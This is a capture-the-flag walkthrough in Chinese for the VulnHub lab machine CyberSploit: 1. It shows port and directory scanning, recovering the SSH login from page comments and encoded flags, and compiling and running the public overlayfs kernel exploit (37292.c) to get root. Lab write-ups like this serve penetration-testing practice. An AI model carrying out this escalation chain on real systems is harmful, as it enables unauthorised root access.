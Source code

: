 # CyberSploit: 1

2024-5-18 https://www.vulnhub.com/entry/cybersploit-1,506/

difficulty: BEGINNER

## IP

192.168.5.22

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 011bc8fe18712860846a9f303511663d (DSA)
|   2048 d95314a37f9951403f49efef7f8b35de (RSA)
|_  256 ef435bd0c0ebee3e76615c6dce15fe7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hello Pentester!
|_http-server-header: Apache/2.2.22 (Ubuntu)
```

80 web 主页上没什么信息，使用目录扫描：

```
http://192.168.5.22/index                (Status: 200) [Size: 2333]
http://192.168.5.22/index.html           (Status: 200) [Size: 2333]
http://192.168.5.22/robots               (Status: 200) [Size: 79]
http://192.168.5.22/robots.txt           (Status: 200) [Size: 79]
http://192.168.5.22/hacker               (Status: 200) [Size: 3757743]
```

http://192.168.5.22/robots.txt 中是一串字符串：

```
R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9

Good Work !
Flag1: cybersploit{youtube.com/c/cybersploit}
```

在 index.html 源代码中，发现了提示：

```
<!-------------username:itsskv--------------------->
```

用户应该是 ssh 用户，但是不知道密码，尝试下用 rockyou 进行爆破，没有成功。

其他的方向也没有思路，现在只获得了一个 username 和 一个 flag 值，有没有可能这个 flag 就是 ssh 的密码，尝试进行登陆下，果然能登陆，这个设计也太 fuck 了。

用户凭据 itsskv:cybersploit{youtube.com/c/cybersploit}

得到了 flag2 的值：

```
itsskv@cybersploit-CTF:~$ cat flag2.txt
01100111 01101111 01101111 01100100 00100000 01110111 01101111 01110010 01101011 00100000 00100001 00001010 01100110 01101100 01100001 01100111 00110010 00111010 00100000 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 01111011 01101000 01110100 01110100 01110000 01110011 00111010 01110100 00101110 01101101 01100101 00101111 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 00110001 01111101
```

看样子需要将二进制进行 binary 转换，得到：

```
good work !
flag2: cybersploit{https:t.me/cybersploit1}
```

最后一个 flag 应该是在/root 中，需要进行 root 提权了。

sudo 没有任何显示，看看其他的提权方向。

看看内核版本，可能存在内核提权漏洞。

Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux

可以找到：Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation | linux/local/37292.c

下载到目标机器，进行编译执行：

```
itsskv@cybersploit-CTF:/tmp$ gcc 37292.c -o ofs
itsskv@cybersploit-CTF:/tmp$ id
uid=1001(itsskv) gid=1001(itsskv) groups=1001(itsskv)
itsskv@cybersploit-CTF:/tmp$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(itsskv)
```

最终获得第 3 个 flag：

```
# cat finalflag.txt
  ______ ____    ____ .______    _______ .______          _______..______    __        ______    __  .___________.
 /      |\   \  /   / |   _  \  |   ____||   _  \        /       ||   _  \  |  |      /  __  \  |  | |           |
|  ,----' \   \/   /  |  |_)  | |  |__   |  |_)  |      |   (----`|  |_)  | |  |     |  |  |  | |  | `---|  |----`
|  |       \_    _/   |   _  <  |   __|  |      /        \   \    |   ___/  |  |     |  |  |  | |  |     |  |
|  `----.    |  |     |  |_)  | |  |____ |  |\  \----.----)   |   |  |      |  `----.|  `--'  | |  |     |  |
 \______|    |__|     |______/  |_______|| _| `._____|_______/    | _|      |_______| \______/  |__|     |__|


   _   _   _   _   _   _   _   _   _   _   _   _   _   _   _
  / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \
 ( c | o | n | g | r | a | t | u | l | a | t | i | o | n | s )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/

flag3: cybersploit{Z3X21CW42C4 many many congratulations !}

if you like it share with me https://twitter.com/cybersploit1.

Thanks !
```
